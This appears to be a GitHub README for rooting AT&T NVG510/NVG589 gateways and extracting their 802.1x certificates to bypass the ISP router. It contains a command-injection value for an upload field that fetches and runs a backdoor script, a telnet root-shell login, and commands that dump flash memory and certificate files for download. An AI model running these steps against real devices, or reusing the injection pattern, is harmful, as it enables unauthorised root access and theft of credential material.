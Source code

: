 # BypassAttRG

This method works to rip the 802.1x keys from NVG589.




## Menu
- [Prerequisites](#prerequisites)
- [Extract Certificates](#extract-certificates)
- [Configuring 802.1x authentication](#configuring-8021x-authentication)
- [Miscellaneous](#miscellaneous)
- [Credits & References](#credits--references)

  
## Prerequisites
- [Python 3](https://www.python.org/downloads/release/python-373/) for the local http server. There are many alternatives(e.g. [mobaxterm](https://mobaxterm.mobatek.net/)).
- Basic knowledge of POSIX commands (cd, mkdir, wget, etc.).
- A NVG510 or NVG589

[Back to menu](#menu)
## Extract Certificates
The certificates extracted from both NVG510 and NVG589 work, however NVG510 costs less and is easier to root.
- [NVG510](#nvg510)
- [NVG589](#nvg589) (maybe NVG599)
### NVG510
#### Rooting
Credit: [earlz](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui)
- Downgrade firmware to [9.0.6h2d30](firmware/nvg510/nbxv9.0.6h2d30.bin)
- Follow this guide [Rooting The NVG510 from the WebUI](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui).  
If NVG510 has no connection to internet, you may want to setup a local server for NVG510 to download the script.
  - Download [http://earlz.net/static/backdoor.nvg510.sh](http://earlz.net/static/backdoor.nvg510.sh)
  - Using Python to setup a simple http server. `python -m http.server`
  - Change _uploadfile_ to `errrr && wget http://YOUR_LOCAL_IP:8000/backdoor.nvg510.sh -O /tmp/backdoor.sh && source /tmp/backdoor.sh && errr`

- Login `telnet 192.168.1.254 28`. The username is **admin** and the password is your modem's *access code*.
- Type `!`. It switches to root shell.

#### Extract Certificates
- Download [busybox-mips](https://busybox.net/downloads/binaries/1.31.0-defconfig-multiarch-musl/busybox-mips) to your **local** device. 
- Start Python http server. `python -m http.server`
- In NVG510, `wget https://YOUR_LOCAL_IP:8000/busybox-mips -O /tmp/busybox`
- `chmod +x /tmp/busybox`
- `/tmp/busybox dd if=/dev/mtdblock4 of=/tmp/mfg.dat bs=1k`
- `mkdir /tmp/images` 
- `mount -o blind /tmp/images /www/att/imges`
- `cp /tmp/mfg.dat /www/att/images`
- `cd /tmp`
- `tar cf cert.tar /etc/rootcert/`
- `cp cert.tar /www/att/images`
-  Download http://192.168.1.254/images/mfg.dat and http://192.168.1.254/images/cert.tar to your **local** device.
   